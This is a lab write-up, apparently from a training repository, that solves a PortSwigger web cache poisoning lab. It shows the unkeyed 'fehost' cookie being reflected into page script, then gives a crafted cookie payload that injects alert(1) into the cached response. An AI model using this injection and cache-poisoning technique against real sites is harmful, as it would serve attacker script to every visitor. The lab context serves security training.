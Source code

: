 # [Lab: Web cache poisoning with an unkeyed cookie](portswigger.net/web-security/web-cache-poisoning/exploiting-design-flaws/lab-web-cache-poisoning-with-an-unkeyed-cookie)

## Lab

This lab is vulnerable to web cache poisoning because cookies aren't included in the cache key. An unsuspecting user regularly visits the site's home page. To solve this lab, poison the cache with a response that executes `alert(1)` in the visitor's browser.

## Analysis

Param Miner extension results, `fehost` is an unkeyed cookie:

![param-miner.png](./../img/lab-2-param-miner.png)

Observe that the `fehost` value has been passed to js script

```http
GET / HTTP/1.1
Cookie: fehost=prod-cache-01;
```

```http
HTTP/1.1 200 OK
Set-Cookie: fehost=prod-cache-01; Secure; HttpOnly
Cache-Control: max-age=30
Age: 0
X-Cache: miss

<script>
    data = {
        "host":"0a9f00a4033e1663c454555000e6009a.web-security-academy.net",
        "path":"/",
        "frontend":"prod-cache-01"
    }
</script>
```

## Solutions

cache poisoning:

```http
GET / HTTP/1.1
Cookie: fehost=a",+"a"%3a+alert(1),+"b"%3a+"b;
```

cache:

```js
<script>
    data = {
        "host":"0a9f00a4033e1663c454555000e6009a.web-security-academy.net",
        "path":"/",
        "frontend":"a", "a": alert(1), "b": "b"
    }
</script>
```
